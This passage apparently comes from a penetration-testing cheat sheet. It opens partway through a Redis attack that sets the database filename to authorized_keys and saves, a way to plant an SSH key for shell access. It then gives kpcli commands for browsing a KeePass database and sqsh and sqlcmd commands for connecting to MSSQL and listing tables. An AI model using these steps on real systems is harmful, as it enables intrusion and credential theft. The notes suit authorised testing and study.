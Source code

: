     OK

    <RHOST>:6379> CONFIG SET dbfilename authorized_keys

    OK

    <RHOST>:6379> CONFIG GET dbfilename

    1) "dbfilename"

    2) "authorized_keys"

    <RHOST>:6379> save

    OK

# KPCLI SHELL NAVIGATION (ALTERNATIVE: KEEPASS2 WHICH IS A GUI)

#### 1) 

    kpcli

#### 2) 

    open DATABASE.kdbx (Connect to the Keepass database. Keep in mind you need to enter credentials to successfully connect)

#### 3) 

    ls (List files)

#### 4) 

    cd DIR (Change directory)

#### 5) 

    show NUM -f (Print contents of the specified file)

# MSSQL SHELL NAVIGATION (sqsh)

#### 1) 

    sqsh -S IP_ADDRESS:1433 -U DOMAIN.LOCAL\\USERNAME -P 'PASSWORD'

# SQLCMD 

#### 1) 

    sqlcmd -S SERVER.COM -U DBUSER -P 'PASSWORD' -d DATABASE_NAME -Q "SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE"

#### 2) 
